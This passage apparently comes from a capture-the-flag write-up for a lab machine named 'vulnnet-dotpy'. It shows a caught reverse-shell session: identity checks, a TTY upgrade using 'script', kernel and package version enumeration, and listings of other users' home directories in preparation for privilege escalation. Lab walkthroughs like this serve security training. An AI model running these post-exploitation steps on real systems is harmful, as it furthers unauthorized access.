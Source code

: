 ```powershell
listening on [any] 10222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.15.164] 53028

$ whoami
whoami
web
$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
$ pwd
pwd
/home/web/shuriken-dotpy
$ SHELL=/bin/bash script -q /dev/null
web@vulnnet-dotpy:~/shuriken-dotpy$ export TERM=xterm

web@vulnnet-dotpy:~/shuriken-dotpy$ uname -a
Linux vulnnet-dotpy 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

web@vulnnet-dotpy:~/shuriken-dotpy$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

web@vulnnet-dotpy:~/shuriken-dotpy$ ls -lsa /home
total 20
4 drwxr-xr-x  5 root       root       4096 Dec 21  2020 .
4 drwxr-xr-x 23 root       root       4096 Dec 20  2020 ..
4 drw-------  2 manage     manage     4096 Dec 21  2020 manage
4 drwxr-x--- 17 system-adm system-adm 4096 Jan 26  2021 system-adm
4 drwxr-xr-x 18 web        web        4096 Jan 26  2021 web

web@vulnnet-dotpy:~/shuriken-dotpy$ ls -lsa /home/web
total 104
4 drwxr-xr-x 18 web  web  4096 Jan 26  2021 .
4 drwxr-xr-x  5 root root 4096 Dec 21  2020 ..
0 lrwxrwxrwx  1 root root    9 Dec 21  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 web  web   220 Dec 21  2020 .bash_logout
4 -rw-r--r--  1 web  web  3853 Dec 21  2020 .bashrc
4 drwx------  9 web  web  4096 Dec 23  2020 .cache
4 drwxrwxr-x 14 web  web  4096 Dec 23  2020 .config
4 drwx------  3 web  web  4096 Dec 23  2020 .dbus
4 drwx------  2 web  web  4096 Dec 23  2020 Desktop
4 -rw-r--r--  1 web  web    26 Dec 23  2020 .dmrc
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Documents
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Downloads
4 drwx------  3 web  web  4096 Dec 23  2020 .gnupg
4 drwxrwxr-x  5 web  web  4096 Dec 23  2020 .local
4 drwx------  5 web  web  4096 Dec 23  2020 .mozilla
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Music
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Pictures
4 drwxrwxr-x  5 web  web  4096 Dec 27 08:16 .pm2
4 -rw-r--r--  1 web  web   807 Dec 21  2020 .profile
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Public
4 drwxr-xr-x  8 web  web  4096 Dec 27 08:57 shuriken-dotpy
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Templates
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Videos
4 -rw-------  1 web  web    59 Jan 26  2021 .Xauthority
4 -rw-r--r--  1 web  web    14 Feb 12  2018 .xscreensaver
4 -rw-------  1 web  web  2495 Jan 26  2021 .xsession-errors
4 -rw-------  1 web  web  2495 Dec 23  2020 .xsession-errors.old

web@vulnnet-dotpy:~/shuriken-dotpy$ 
```